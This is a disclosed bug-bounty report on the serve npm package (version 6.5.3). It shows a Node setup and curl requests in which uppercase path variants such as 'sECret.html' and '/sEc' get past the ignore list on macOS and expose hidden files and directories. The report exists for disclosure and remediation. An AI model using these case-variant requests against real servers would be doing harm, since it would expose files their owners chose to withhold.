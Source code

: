 # [serve] Directory listing and File access even when they have been set to be ignored

## Report Details
- **Report ID**: 330650
- **URL**: https://hackerone.com/reports/330650
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-03-28T06:51:07.059Z
- **Disclosed**: 2018-05-31T19:18:43.353Z

## Reporter
- **Username**: tungpun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a vulnerability in **serve** on macOS.
It allows listing directory and reading local files on the target server.

# Module

**module name:** serve
**version:** 6.5.3
**npm page:** `https://www.npmjs.com/package/serve`

## Module Description

Ever wanted to share a project on your network by running just a command? Then this module is exactly what you're looking for: It provides a neat interface for listing the directory's contents and switching into sub folders.

In addition, it's also awesome when it comes to serving static sites!

# Vulnerability

## Steps To Reproduce:

*On macOS:*

* Install **serve**:

`$ npm i serve`

* Create an application that uses **serve** for file serving listing and set a few folders and files in the `ignore` config.

```
const serve = require('serve')
const server = serve(__dirname, {
      port: 6060,
      ignore: ['sec', 'secret.html']
})
```

* Run the app

`$ node app.js`

* Now, the current directory will be served by this module on port `6060` with the exception of folder `sec` and file `secret.html`

* If we try to request these ignored files/directories, we get a `Not Found` error

```
$ curl --path-as-is 'http://127.0.0.1:6060/secret.html'
Not Found
```
or if we replace `e` character with URI encoded form `%65`, it still be ignored:

```
$ curl --path-as-is 'http://127.0.0.1:6060/s%65cret.html'
Not Found
```

* However, I found a way to access that file by using uppercase format.

```
$ curl --path-as-is 'http://127.0.0.1:6060/sECret.html'
This is secret content!!
```

To list an *ignored* directory:

`http://127.0.0.1:6060/sEc`

{F279417}

## Supporting Material/References:

* macOS High Sierra 10.13.3
* node v8.10.0
* npm 5.6.0
* Chrome Version 65.0.3325.162 (Official Build) (64-bit)

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

It bypasses the ignore files/directories feature and allows an attacker to read a file or list the directory that the victim has not allowed access to.

## Attachments
- serve.png
